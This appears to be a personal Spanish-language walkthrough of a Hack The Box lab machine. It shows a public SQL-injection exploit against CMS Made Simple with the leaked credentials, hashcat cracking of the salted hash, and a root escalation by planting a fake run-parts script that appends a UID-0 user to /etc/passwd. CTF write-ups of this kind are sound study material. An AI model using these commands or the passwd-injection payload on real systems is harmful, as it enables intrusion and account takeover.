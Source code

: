 Puertos abiertos![[Pasted image 20250414122524.png]]

la pagina principal es esta ![[Pasted image 20250414122605.png]]


en el escaneo con nmap nos chiva que tiene robots.txt
 en robots tenemos esto #              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
 
 Esa url demomento lleva a este sitio ![[Pasted image 20250414122805.png]]
 estamos en http://10.10.10.138/writeup/
 en el codigo fuente encontramos ![[Pasted image 20250414123424.png]]
 CMS MADE SIMPLE pero bueno demomento tmp sabemos que version tenemos ni nada 
 
 buscando un poco encontramos una inyeccion sql bling ejecutando un codigo de un github parece que nos da credenciales correctas 
 he tenido que mirar el writeup original iba por buen camino pero no le habia proporcionado bien la url https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
 
 ┌──(venv)─(root㉿kali)-[/home/kali/writeup/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit]
└─# python3 cve.py   -uhttp://10.10.10.138/ --crack -w best110.txt


[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeupl
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
                                                               
┌──(venv)─(root㉿kali)-[/home/kali/writeup/CVE-20

la contrasena es un hash que esta en MD5+ salt no tengo ni idea de lo que  es salt luego lo mirare mas en detallle 

5a599ef579066807raykayjay9 me ha dado esto en una pagina web decodeanla voy a crackearla con hascat a ver si me da lo mismo 

hashcat -m 20 -a 0 hash.txt wordlist.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Mon Apr 14 10:28:16 2025 (1 sec)
Time.Estimated...: Mon Apr 14 10:28:17 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6350.9 kH/s (0.09ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4362240/14344385 (30.41%)
Rejected.........: 0/4362240 (0.00%)
Restore.Point....: 4359680/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: raylan34 -> ray061
Hardware.Mon.#1..: Util: 29%


he tenido que mirar el writeup porque no tenia sentido estaba intentando hacer login en 


http://10.10.10.138/writeup/admin/

jkr:raykayjay9 son para acceder por ssh

la escalacion de privilegios es complicada porque no tiene sudo de primeras tenemos estos usuarios con sus ids
 jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ 

staff es
.bash_history  .bash_logout   .bashrc        .nano/         .profile       pspy32         pspy64         user.txt       
jkr@writeup:~$ chmod +x pspy32
jkr@writeup:~$ ./pspy64 
 estoy ejecutando este archivo que se supone que saca todas las tareas que haya en el crontab pero no veo la que deberia de ver 
 
 ![[Pasted image 20250414175213.png]]
 ahora si que se ve el proceso que buscamos es este 
 run-parts --lsbsysinit /etc/update-motd.d 
2025/04/14 11:53:32 CMD: UID=0     PID=2293   | uname -rnsom 

run-parts exactamente por lo que estoy leyendo nose que hace este binario exactamente pero bueno no tengo acceso a ver que binarios hay pero si lo esta llamando de forma indirecta es porque tiene que estar dentro de el archivo de binarios 

hacemos esto para crear un nuevo usuario jkr@writeup:/tmp$ nano /usr/local/bin/run-parts
jkr@writeup:/tmp$ cat /usr/local/bin/run-parts
#!/bin/bash
echo 'deejay:$1$deejay$4bbVUrgoKNqATEsKbF2d.0:0:0:root:/root:/bin/bash' >> /etc/passwd
jkr@writeup:/tmp$ 



hay que llamar ahora al proceso asique entramos por ssh
![[Pasted image 20250414180202.png]]


y ya seriamos root ![[Pasted image 20250414180238.png]]
